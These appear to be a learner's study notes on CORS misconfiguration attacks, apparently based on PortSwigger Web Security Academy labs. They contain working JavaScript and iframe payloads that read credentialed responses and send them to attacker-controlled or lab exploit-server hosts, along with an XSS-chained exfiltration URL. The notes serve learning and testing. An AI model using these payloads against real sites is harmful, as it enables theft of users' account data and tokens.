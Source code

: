 ## Server-generated [ACAO](https://portswigger.net/web-security/cors/access-control-allow-origin) header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```http
GET /sensitive-victim-data HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://malicious-website.com 
Cookie: sessionid=...
```

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://malicious-website.com 
Access-Control-Allow-Credentials: true
```

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener; 
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true; 
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

## Errors parsing Origin headers

istakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:

`normal-website.com`

An attacker might be able to gain access by registering the domain:

`hackersnormal-website.com`

Alternatively, suppose an application grants access to all domains beginning with

`normal-website.com`

An attacker might be able to gain access using the domain:

`normal-website.com.evil-user.net`

### Null origin value

Some applications might whitelist the `null` origin to support local development of the application. For example, suppose an application receives the following cross-origin request:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com 
Origin: null
```

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: null 
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a6100b80467417fc081638600ad007a.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='exploit-0a890027041c41fdc09f621e012b0071.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```

## Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

An attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:

`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`

## Breaking TLS with poorly configured CORS

In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. This attack involves the following steps:

1.   The victim user makes any plain HTTP request.
2.   The attacker injects a redirection to:
    `http://trusted-subdomain.vulnerable-website.com`
3.   The victim's browser follows the redirect.
4.   The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
    `https://vulnerable-website.com`
5.   The victim's browser makes the CORS request, including the origin:
    `http://trusted-subdomain.vulnerable-website.com`
6.   The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
7.   The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.

This attack is effective even if the vulnerable website is otherwise robust in its usage of HTTPS, with no HTTP endpoint and all cookies flagged as secure.

Example with XSS and TLS break:
```html
<script>
document.location="http://stock.0a5f00e404759c3dc063d12e00300019.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5f00e404759c3dc063d12e00300019.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='https://exploit-0a1100ff04a59cfac071d01d01d500c8.exploit-server.net/log?key='%2bthis.responseText; };%3C/script>&storeId=1"
</script>
```

## Intranets and CORS without credentials

Most CORS attacks rely on the presence of the response header:

`Access-Control-Allow-Credentials: true`

Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

However, there is one common situation where an attacker can't access a website directly: when it's part of an organization's intranet, and located within private IP address space. Internal websites are often held to a lower security standard than external sites, enabling attackers to find vulnerabilities and gain further access. For example, a cross-origin request within a private network may be as follows:

`GET /reader?url=doc1.pdf Host: intranet.normal-website.com Origin: https://normal-website.com`

And the server responds with:

`HTTP/1.1 200 OK Access-Control-Allow-Origin: *`

The application server is trusting resource requests from any origin without credentials. If users within the private IP address space access the public internet then a CORS-based attack can be performed from the external site that uses the victim's browser as a proxy for accessing intranet resources

PS: Sorry, I didn't get the lab lol
https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack
